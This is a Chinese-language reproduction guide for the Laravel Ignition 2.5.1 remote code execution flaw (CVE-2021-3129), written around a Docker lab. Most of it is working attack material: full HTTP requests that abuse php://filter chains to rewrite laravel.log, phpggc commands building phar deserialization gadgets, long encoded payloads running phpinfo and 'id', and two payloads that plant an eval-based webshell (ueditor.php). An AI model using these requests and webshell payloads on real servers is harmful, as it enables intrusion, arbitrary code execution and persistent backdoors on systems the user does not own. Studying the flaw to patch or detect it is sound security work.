

# Laravel Ignition 2.5.1 代码执行漏洞 CVE-2021-3129

## 漏洞描述

Laravel 是一个由 Taylor Otwell 所创建，免费的开源 PHP Web 框架。在开发模式下，Laravel 使用了 Ignition 提供的错误页面，在 Ignition 2.5.1 及之前的版本中，有类似这样的代码：

```
$contents = file_get_contents($parameters['viewFile']);
file_put_contents($parameters['viewFile'], $contents);
```

攻击者可以通过 `phar://` 协议来执行反序列化操作，进而执行任意代码。

参考链接：

- https://www.ambionics.io/blog/laravel-debug-rce
- https://mp.weixin.qq.com/s/k08P2Uij_4ds35FxE2eh0g
- https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/master/cves/2021/CVE-2021-3129.yaml

## 环境搭建

Vulhub 执行如下命令启动一个运行着 Laravel 8.4.2 和 Ignition 2.5.1 的应用：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可查看 Laravel 默认的欢迎页面。

## 漏洞复现

首先，我们发送如下数据包，页面出现了 Ignition 的报错，说明漏洞存在，且开启了 debug 模式：


然后，我们按照如下方法复现漏洞。

一，发送如下数据包，将原日志文件清空，如果出现 500 Internal Server Error，重新发送一次，直到 200 OK。

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 328

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.iconv.utf-8.utf-16be|convert.quoted-printable-encode|convert.iconv.utf-16be.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
```

二，用 phpggc 生成序列化利用 POC

```shell
# phpinfo
php -d "phar.readonly=0" ./phpggc Laravel/RCE5 "phpinfo();" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
```

三，发送如下数据包，给 Log 增加一次前缀

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 163

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "AA"
  }
}
```

四，将 POC 作为 viewFile 的值，发送数据包，得到的 POC（编码后的）末尾需要添加一个 `a`，否则 laravel.log 中出现两个 POC，导致利用失败。

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 5058

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=6F=00=66=00=41=00=67=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=44=00=49=00=41=00=51=00=41=00=41=00=54=00=7A=00=6F=00=30=00=4D=00=44=00=6F=00=69=00=53=00=57=00=78=00=73=00=64=00=57=00=31=00=70=00=62=00=6D=00=46=00=30=00=5A=00=56=00=78=00=43=00=63=00=6D=00=39=00=68=00=5A=00=47=00=4E=00=68=00=63=00=33=00=52=00=70=00=62=00=6D=00=64=00=63=00=55=00=47=00=56=00=75=00=5A=00=47=00=6C=00=75=00=5A=00=30=00=4A=00=79=00=62=00=32=00=46=00=6B=00=59=00=32=00=46=00=7A=00=64=00=43=00=49=00=36=00=4D=00=6A=00=70=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=6C=00=64=00=6D=00=56=00=75=00=64=00=48=00=4D=00=69=00=4F=00=30=00=38=00=36=00=4D=00=6A=00=55=00=36=00=49=00=6B=00=6C=00=73=00=62=00=48=00=56=00=74=00=61=00=57=00=35=00=68=00=64=00=47=00=56=00=63=00=51=00=6E=00=56=00=7A=00=58=00=45=00=52=00=70=00=63=00=33=00=42=00=68=00=64=00=47=00=4E=00=6F=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=45=00=36=00=65=00=33=00=4D=00=36=00=4D=00=54=00=59=00=36=00=49=00=67=00=41=00=71=00=41=00=48=00=46=00=31=00=5A=00=58=00=56=00=6C=00=55=00=6D=00=56=00=7A=00=62=00=32=00=78=00=32=00=5A=00=58=00=49=00=69=00=4F=00=32=00=45=00=36=00=4D=00=6A=00=70=00=37=00=61=00=54=00=6F=00=77=00=4F=00=30=00=38=00=36=00=4D=00=6A=00=55=00=36=00=49=00=6B=00=31=00=76=00=59=00=32=00=74=00=6C=00=63=00=6E=00=6C=00=63=00=54=00=47=00=39=00=68=00=5A=00=47=00=56=00=79=00=58=00=45=00=56=00=32=00=59=00=57=00=78=00=4D=00=62=00=32=00=46=00=6B=00=5A=00=58=00=49=00=69=00=4F=00=6A=00=41=00=36=00=65=00=33=00=31=00=70=00=4F=00=6A=00=45=00=37=00=63=00=7A=00=6F=00=30=00=4F=00=69=00=4A=00=73=00=62=00=32=00=46=00=6B=00=49=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4F=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=5A=00=58=00=5A=00=6C=00=62=00=6E=00=51=00=69=00=4F=00=30=00=38=00=36=00=4D=00=7A=00=67=00=36=00=49=00=6B=00=6C=00=73=00=62=00=48=00=56=00=74=00=61=00=57=00=35=00=68=00=64=00=47=00=56=00=63=00=51=00=6E=00=4A=00=76=00=59=00=57=00=52=00=6A=00=59=00=58=00=4E=00=30=00=61=00=57=00=35=00=6E=00=58=00=45=00=4A=00=79=00=62=00=32=00=46=00=6B=00=59=00=32=00=46=00=7A=00=64=00=45=00=56=00=32=00=5A=00=57=00=35=00=30=00=49=00=6A=00=6F=00=78=00=4F=00=6E=00=74=00=7A=00=4F=00=6A=00=45=00=77=00=4F=00=69=00=4A=00=6A=00=62=00=32=00=35=00=75=00=5A=00=57=00=4E=00=30=00=61=00=57=00=39=00=75=00=49=00=6A=00=74=00=50=00=4F=00=6A=00=4D=00=79=00=4F=00=69=00=4A=00=4E=00=62=00=32=00=4E=00=72=00=5A=00=58=00=4A=00=35=00=58=00=45=00=64=00=6C=00=62=00=6D=00=56=00=79=00=59=00=58=00=52=00=76=00=63=00=6C=00=78=00=4E=00=62=00=32=00=4E=00=72=00=52=00=47=00=56=00=6D=00=61=00=57=00=35=00=70=00=64=00=47=00=6C=00=76=00=62=00=69=00=49=00=36=00=4D=00=6A=00=70=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=6A=00=62=00=32=00=35=00=6D=00=61=00=57=00=63=00=69=00=4F=00=30=00=38=00=36=00=4D=00=7A=00=55=00=36=00=49=00=6B=00=31=00=76=00=59=00=32=00=74=00=6C=00=63=00=6E=00=6C=00=63=00=52=00=32=00=56=00=75=00=5A=00=58=00=4A=00=68=00=64=00=47=00=39=00=79=00=58=00=45=00=31=00=76=00=59=00=32=00=74=00=44=00=62=00=32=00=35=00=6D=00=61=00=57=00=64=00=31=00=63=00=6D=00=46=00=30=00=61=00=57=00=39=00=75=00=49=00=6A=00=6F=00=78=00=4F=00=6E=00=74=00=7A=00=4F=00=6A=00=63=00=36=00=49=00=67=00=41=00=71=00=41=00=47=00=35=00=68=00=62=00=57=00=55=00=69=00=4F=00=33=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=59=00=57=00=4A=00=6A=00=5A=00=47=00=56=00=6D=00=5A=00=79=00=49=00=37=00=66=00=58=00=4D=00=36=00=4E=00=7A=00=6F=00=69=00=41=00=43=00=6F=00=41=00=59=00=32=00=39=00=6B=00=5A=00=53=00=49=00=37=00=63=00=7A=00=6F=00=79=00=4E=00=54=00=6F=00=69=00=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=63=00=47=00=68=00=77=00=61=00=57=00=35=00=6D=00=62=00=79=00=67=00=70=00=4F=00=79=00=42=00=6C=00=65=00=47=00=6C=00=30=00=4F=00=79=00=41=00=2F=00=50=00=69=00=49=00=37=00=66=00=58=00=31=00=39=00=42=00=51=00=41=00=41=00=41=00=47=00=52=00=31=00=62=00=57=00=31=00=35=00=42=00=41=00=41=00=41=00=41=00=4C=00=71=00=2F=00=42=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4C=00=59=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=51=00=75=00=64=00=48=00=68=00=30=00=42=00=41=00=41=00=41=00=41=00=4C=00=71=00=2F=00=42=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4C=00=59=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=64=00=47=00=56=00=7A=00=64=00=48=00=52=00=6C=00=63=00=33=00=52=00=64=00=30=00=6B=00=2F=00=31=00=70=00=52=00=49=00=71=00=57=00=72=00=36=00=77=00=46=00=6C=00=38=00=30=00=4D=00=2B=00=48=00=4B=00=2B=00=57=00=61=00=63=00=4E=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00a"
  }
}
```

五，发送如下数据包，对 Log 文件进行清理

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 299

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log"
  }
}
```

这一步可能会出现异常 500 Interal Server Error，导致无法正确清理 Log 文件。如果出现这种状况，可以重新从第一步开始尝试。

六，使用 `phar://` 进行反序列化，执行任意代码

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 210

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"
  }
}
```

此时需要使用绝对路径，比如：

```
"viewFile": "phar:///var/www/storage/logs/laravel.log/test.txt"
"viewFile": "phar:///var/www/html/storage/logs/laravel.log/test.txt"

# 如果 lavavel 路径非默认，以上所有 Payload 的路径也需要进行对应更改
# 例如 /var/www/html/storage/log/laravel.log （log，而不是logs）
```

可见，PHPINFO 已成功执行：



如果不成功，尝试通过 `compress.zlib://` 进行触发：

```
POST /_ignition/execute-solution HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 210

{
  "solution": "Facade\\Ignition\\Solutions\\MakeViewVariableOptionalSolution",
  "parameters": {
    "variableName": "username",
    "viewFile": "compress.zlib://phar:///var/www/storage/logs/laravel.log/test.txt"
  }
}
```

## 漏洞 POC

Command `id` payload：

```
=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=6F=00=4C=00=41=00=51=00=41=00=41=00=41=00=67=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=7A=00=41=00=41=00=41=00=41=00=54=00=7A=00=6F=00=30=00=4D=00=44=00=6F=00=69=00=53=00=57=00=78=00=73=00=64=00=57=00=31=00=70=00=62=00=6D=00=46=00=30=00=5A=00=56=00=78=00=43=00=63=00=6D=00=39=00=68=00=5A=00=47=00=4E=00=68=00=63=00=33=00=52=00=70=00=62=00=6D=00=64=00=63=00=55=00=47=00=56=00=75=00=5A=00=47=00=6C=00=75=00=5A=00=30=00=4A=00=79=00=62=00=32=00=46=00=6B=00=59=00=32=00=46=00=7A=00=64=00=43=00=49=00=36=00=4D=00=6A=00=70=00=37=00=63=00=7A=00=6F=00=35=00=4F=00=69=00=49=00=41=00=4B=00=67=00=42=00=6C=00=64=00=6D=00=56=00=75=00=64=00=48=00=4D=00=69=00=4F=00=30=00=38=00=36=00=4D=00=7A=00=45=00=36=00=49=00=6B=00=6C=00=73=00=62=00=48=00=56=00=74=00=61=00=57=00=35=00=68=00=64=00=47=00=56=00=63=00=56=00=6D=00=46=00=73=00=61=00=57=00=52=00=68=00=64=00=47=00=6C=00=76=00=62=00=6C=00=78=00=57=00=59=00=57=00=78=00=70=00=5A=00=47=00=46=00=30=00=62=00=33=00=49=00=69=00=4F=00=6A=00=45=00=36=00=65=00=33=00=4D=00=36=00=4D=00=54=00=41=00=36=00=49=00=6D=00=56=00=34=00=64=00=47=00=56=00=75=00=63=00=32=00=6C=00=76=00=62=00=6E=00=4D=00=69=00=4F=00=32=00=45=00=36=00=4D=00=54=00=70=00=37=00=63=00=7A=00=6F=00=77=00=4F=00=69=00=49=00=69=00=4F=00=33=00=4D=00=36=00=4E=00=6A=00=6F=00=69=00=63=00=33=00=6C=00=7A=00=64=00=47=00=56=00=74=00=49=00=6A=00=74=00=39=00=66=00=58=00=4D=00=36=00=4F=00=44=00=6F=00=69=00=41=00=43=00=6F=00=41=00=5A=00=58=00=5A=00=6C=00=62=00=6E=00=51=00=69=00=4F=00=33=00=4D=00=36=00=4D=00=6A=00=6F=00=69=00=61=00=57=00=51=00=69=00=4F=00=33=00=30=00=46=00=41=00=41=00=41=00=41=00=5A=00=48=00=56=00=74=00=62=00=58=00=6B=00=45=00=41=00=41=00=41=00=41=00=58=00=73=00=7A=00=6F=00=59=00=41=00=51=00=41=00=41=00=41=00=41=00=4D=00=66=00=6E=00=2F=00=59=00=70=00=41=00=45=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=49=00=41=00=41=00=41=00=41=00=64=00=47=00=56=00=7A=00=64=00=43=00=35=00=30=00=65=00=48=00=51=00=45=00=41=00=41=00=41=00=41=00=58=00=73=00=7A=00=6F=00=59=00=41=00=51=00=41=00=41=00=41=00=41=00=4D=00=66=00=6E=00=2F=00=59=00=70=00=41=00=45=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=43=00=7A=00=64=00=47=00=56=00=7A=00=64=00=48=00=52=00=6C=00=63=00=33=00=51=00=63=00=4A=00=39=00=59=00=36=00=5A=00=6B=00=50=00=61=00=39=00=61=00=45=00=49=00=51=00=49=00=45=00=47=00=30=00=6B=00=4A=00=2B=00=39=00=4A=00=50=00=6B=00=4C=00=67=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00a
```

Webshell payload 1：

```shell
# webshell path： http://<your-vps-ip>/ueditor.php
# <?php eval($_POST[npc]);?> PD9waHAgZXZhbCgkX1BPU1RbbnBjXSk7Pz4=
php -d "phar.readonly=0" ./phpggc Laravel/RCE6 "system('echo PD9waHAgZXZhbCgkX1BPU1RbbnBjXSk7Pz4=|base64 -d > /var/www/html/public/ueditor.php');" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
```


Webshell payload 2：

```shell
# webshell path： http://<your-vps-ip>/ueditor.php
php -d "phar.readonly=0" ./phpggc Laravel/RCE6 "file_put_contents('/var/www/html/laravel/public/ueditor.php',base64_decode('PD9waHAKZXZhbCgkX1JFUVVFU1RbJ2EnXSk7'));" --phar phar -o php://output | base64 -w 0 | python -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
```

如果不成功，可以尝试 phpgcc 其他链：

```
Laravel/RCE1
Laravel/RCE2
Laravel/RCE3
Laravel/RCE4
Laravel/RCE5
Laravel/RCE6
Laravel/RCE7
```
